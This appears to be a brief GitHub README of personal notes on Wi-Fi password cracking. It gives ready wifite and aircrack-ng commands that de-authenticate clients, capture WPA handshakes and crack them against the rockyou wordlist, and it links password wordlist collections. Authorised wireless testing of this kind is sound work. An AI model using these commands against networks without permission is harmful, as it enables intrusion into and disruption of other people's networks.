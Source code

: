 # wifi-hacking


## wifite
I use wifite version in ubuntu repos with a [patch](https://github.com/robsouth84/wifite/blob/master/wifite.py), but will probably checkout [v2](https://github.com/derv82/wifite2) soon 

### interactive scan:
This will allow selection of network, automatic collection of handshakes (with de-auths), and *should* crack with given wordlist 
```bash
sudo wifite --crack -dict rockyou.txt
```






## aircrack-ng 
Before wifite (and also before I patched wifite) aircrack-ng was the way to go.  Now wifite handles all of the hard work, but for demo's the aircrack-ng screen is always more fun :)

### interactive scan:
Given a bssid, a decent [wordlist](https://wiki.skullsecurity.org/Passwords), and a capture file.  This should find the wifi password (assuming its in the word list)
```bash
sudo aircrack-ng -b xx:xx:xx:xx:xx:xx -l xxNet-Cracked-PW.txt capture_file_with_handshake.cap -w rockyou.txt 
```




## Wordlists

* [skull security](https://wiki.skullsecurity.org/Passwords)
* [packet storm](https://packetstormsecurity.com/Crackers/wordlists/)
* [Daniel Miessler](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
* 

### Other Interesting Links
[NIST Bad Passwords](https://cry.github.io/nbp/)
